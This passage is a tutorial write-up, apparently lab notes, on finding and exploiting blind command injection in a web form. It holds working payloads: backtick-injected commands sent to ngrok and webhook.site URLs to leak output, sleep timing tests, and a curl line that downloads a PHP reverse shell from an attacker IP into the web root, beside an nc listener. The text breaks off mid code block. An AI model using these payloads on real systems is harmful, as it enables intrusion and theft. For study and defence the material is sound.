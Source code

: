 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

### **Enumeration**

#### **Using Ngrok**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

#### **Using sleep**

**Note :** we can also use the the `sleep` command to check if we have blind Command injection
  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```


**_Web app will sleep for 50 seconds_**


![](https://i.imgur.com/wGi2LjV.png)



#### **Using webhook.site**

- navigate to [https://webhook.site](https://webhook.site)
- Copy your **Unique URL**

![](https://i.imgur.com/VH4EBGc.png)

- Paste as follow to the website

```
https://webhook.site/22162abb-7ad5-4f92-8410-c57c37baad72?`COMMAND-GOES-HERE`
```


![](https://i.imgur.com/1KTjvSG.png)

- Navigating back to [webhook.site](https://webhook.site) we have `www-data`

![](https://i.imgur.com/bkceoUk.png)

> **Note :** After each URL always add a question mark (?) and back tick (``), Don't Forget !!



### **Exploitation**

- Start up a python server

```bash
$ python3 -m http.server 80
```

- Use **Wappalyzer** to check for web technology , so we can determine our reverse shell type, In my case it is `PHP`

![](https://i.imgur.com/Ju3RG9F.png)


- Navigate to [revshells.com](https://revshells.com) , Input your IP and preferred PORT, select your reverse shell type then click the save Icon 💾

![](https://i.imgur.com/DXSZZAG.png)


- Save your reverse shell file to where you started up your python server earlier

![](https://i.imgur.com/vdHpp5c.jpg)


- Start up your listener using netcat - `nc -lvnp 4444`
- Now navigate to the website and upload your shell using `curl` or `wget`

```HTML
# for CURL
127.0.0.1?`curl 192.168.0.157:443/shell.php > /var/www/html/shell.php`

#
```